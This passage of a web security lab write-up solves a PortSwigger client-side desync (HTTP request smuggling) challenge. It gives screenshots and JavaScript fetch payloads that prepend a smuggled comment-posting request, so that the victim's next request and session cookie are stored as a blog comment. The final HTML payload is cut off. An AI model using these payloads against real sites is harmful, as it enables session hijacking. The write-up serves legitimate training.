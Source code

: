 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144254.png)

Nice! We can capture any users' session cookie!

**Before we send the above payload to victim, let's test it first:**

**Payload:**
```js
fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net/', {
    method: 'POST',
    body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net\r\nCookie: session=E4JOQg3Yw8TCcboDgbxPSXniXUhi3xPV; _lab_analytics=byZLPF2FM2lpAH83Zz10U7gegQLjKUOJ5EqrlWt6lJSDmy1MspH8ivSU2LDwwlBnQyc4KKombwOqK47ap4jiLqNvYPXKRYhK2TvoyMHnw0HQw8boBEskuySc50lCaIr0K2oOceavIp2n7qn6YKkLoAtfdcsvl7IMwNbJnpZXuK2cIdQ6VXMo6NNQU9AdPMPwJg3tEV0pPMNvg5LNiDDkng8HIOaZDWXrZdKN638WfavVs3dqnxIXalYJZ9qunper\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ad2JMc779PxfzUrbiVP2FIz4QrGCCwt3&postId=2&name=tester&email=test@test.com&website=&comment=', // malicious prefix
    mode: 'cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).catch(() => {
        fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144648.png)

On the **Network** tab, you should see three requests:

- **The initial request, which has triggered a CORS error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144726.png)

- **A request for `/capturer`, which has been redirected to the post confirmation page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144801.png)

- **A request to load the post confirmation page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144817.png)

**Now, in the blog post we should see our own `/capturer` request via a browser-initiated attack:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144850.png)

**Finally, we can deliver the above payload to the victim!!**

**Final payload:**
```html
<html>
    <head>
        <title>Client-side desync</title>
    </head>
    <body>
        <script>
        fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net/', {
            method: 'POST',
            body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net\r\nCookie: session=E4JOQg3Yw8TCcboDgbxPSXniXUhi3xPV; _lab_analytics=byZLPF2FM2lpAH83Zz10U7gegQLjKUOJ5EqrlWt6lJSDmy1MspH8ivSU2LDwwlBnQyc4KKombwOqK47ap4jiLqNvYPXKRYhK2TvoyMHnw0HQw8boBEskuySc50lCaIr0K2oOceavIp2n7qn6YKkLoAtfdcsvl7IMwNbJnpZXuK2cIdQ6VXMo6NNQU9AdPMPwJg3tEV0pPMNvg5LNiDDkng8HIOaZDWXrZdKN638WfavVs3dqnxIXalYJZ9qunper\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ad2JMc779PxfzUrbiVP2FIz4QrGCCwt3&postId=2&name=tester&email=test@test.com&website=&comment=', // malicious prefix
            mode: 'cors', // ensures the connection ID is visible on the Network tab
```